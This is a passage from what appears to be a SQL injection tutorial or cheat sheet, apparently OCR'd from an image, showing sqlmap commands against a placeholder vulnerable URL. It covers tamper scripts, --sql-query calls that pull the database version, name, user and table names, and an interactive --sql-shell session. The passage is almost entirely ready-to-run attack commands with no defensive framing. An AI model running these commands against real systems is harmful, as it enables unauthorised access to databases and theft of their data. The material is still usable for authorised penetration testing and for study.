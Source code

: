 ```
sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=complex_tamper
```


## Leveraging SQLMap's `--sql-query` Option

The `--sql-query` option allows you to directly specify SQL queries to be executed. This is useful for precise injection testing.

### Examples: Custom Queries with `--sql-query`

**Direct Version Query**

This command checks the version of the database:

```
sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-query="SELECT version()"
```

**Union-Based Query**

This command retrieves multiple pieces of information such as the database name, current user, and database version:

```
sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-query="UNION SELECT null, database(), user(), version()"
```

**Subquery Injection**

This command uses a subquery to extract table names:

```
sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-query="SELECT (SELECT table_name FROM information_schema.tables LIMIT 1)"
```

## Using `--sql-shell` for Interactive Injection

SQLMap's `--sql-shell` provides an interactive SQL shell for executing arbitrary SQL commands.

### Example: Starting SQL Shell

**Interactive Shell**

Start an interactive SQL shell to manually execute SQL commands:

```
sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-shell
```

**Executing Commands in Shell**

Execute commands in the SQL shell to retrieve information:

```
sql-shell> SELECT user();
sql-shell> SELECT database();
sql-shell> SELECT table_name FROM information_schema.tables;
```
